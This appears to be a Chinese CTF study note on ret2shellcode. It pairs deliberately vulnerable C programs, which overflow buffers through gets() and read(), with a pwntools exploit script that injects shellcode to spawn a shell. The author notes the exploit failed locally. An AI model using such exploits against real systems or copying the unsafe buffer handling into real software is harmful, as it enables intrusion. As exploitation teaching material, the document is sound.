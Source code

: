 ```c
#include <unistd.h>
int main()
{
    char *argv[] = {"ls", "-al", "/etc/passwd", NULL};
    char *envp[] = {"PATH=/bin", NULL};
    execve("/bin/ls", argv, envp);
}
// #- rw - r -- r -- 1 root root 1712 Nov 20 22 : 59 / etc / passwd
// 这与执行ls -al  /etc/passwd命令所得到的结果是一样的
```

以CTFWIKI里的两道题为例

```python
#利用pwntools生成shellcode
from pwn import *
shellcode=asm(shellcraft.sh())
```

```c
//eg1：
#include <stdio.h>
#include <string.h>
char buf2[100];
int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);
    char buf[100];
    printf("No system for you this time !!!\n");
    gets(buf); //这里明显有溢出点
    strncpy(buf2, buf, 100);
    printf("bye bye ~");
    return 0;
}
```

**exp（本地没打通）**

```python
from pwn import *
p = process('./ret2shellcode')
context.log_level = 'debug' 
buf2_addr = 0x804a080
if args.G:
    gdb.attach(p)
shellcode=asm(shellcraft.sh())
x = shellcode.ljust(112,b'a')
p.recvuntil('No system for you this time !!!\n')
p.sendline(x + p32(buf2_addr))
p.interactive()
```

```c
//eg2
#include <stdio.h>
#include <unistd.h>
int main(){
    char buffer[0x10] = {0};
    setvbuf(stdout, NULL, _IOLBF, 0);
    printf("Welcome to Sniperoj!\n");
    printf("Do your kown what is it : [%p] ?\n", buffer);
    printf("Now give me your answer : \n");
    read(0, buffer, 0x40); //这里同样有溢出
    return 0;
}
```
